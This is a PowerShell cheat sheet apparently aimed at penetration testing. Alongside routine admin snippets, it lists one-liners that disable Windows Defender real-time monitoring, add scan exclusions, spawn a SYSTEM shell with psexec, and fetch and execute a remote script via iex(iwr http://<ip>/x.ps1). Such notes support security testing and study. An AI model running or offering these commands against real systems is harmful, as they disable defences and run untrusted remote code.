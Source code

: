 # Powershell

### General

#### Compact loop

```bash
1,2,3,4 | % {write-host $_}
```

#### Scan selected ports

```bash
22,53,80,443,445 | % { Test-Connection -ComputerName <ip> -Port $_ }
```

#### Unzip

```bash
Expand-Archive <>
Add-Type -assembly 'system.io.compression.filesystem';[io.compression.zipfile]::ExtractToDirectory("<archive path>","<target dir>")
```

#### Check for hidden streams

```bash
Get-Item -Stream * <path>
```

#### Disable Windows Defender

```bash
powershell.exe -exec bypass -command Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Add Defender Exception

```text
Add-MpPreference -ExclusionPath <path>
```

#### Check for Constrained Language Mode

```bash
$ExecutionContext.SessionState.LanguageMode
```

#### Inject .ps1 into session

```bash
Invoke-Command -FilePath <script> -Sessions $sessions
Enter-PSSession -Session $sess
```

#### Run cmd.exe as SYSTEM

```text
psexec.exe -i -s %SystemRoot%\system32\cmd.exe
```

#### File Transfer & Execution

```text
iex(iwr http://<ip>/x.ps1 -usebasicparsing)
```

#### Prevent Output Truncation

```text
| Ft -autosize -wrap
| fl
```

### Encrypt files

```bash
# https://gallery.technet.microsoft.com/scriptcenter/EncryptDecrypt-files-use-65e7ae5d
$key = New-CryptographyKey -Algorithm AES  
# Encrypt the file 
Protect-File '.\secrets.txt' -Algorithm AES -Key $key -RemoveSource 
# Decrypt the file 
Unprotect-File '.\secrets.txt.AES' -Algorithm AES -Key $key -RemoveSource
```

### Alternate Data Stream \(ADS\)

```bash
powershell -command "get-item <file> -stream *"
powershell -command "get-content <file> -stream root.txt"
```


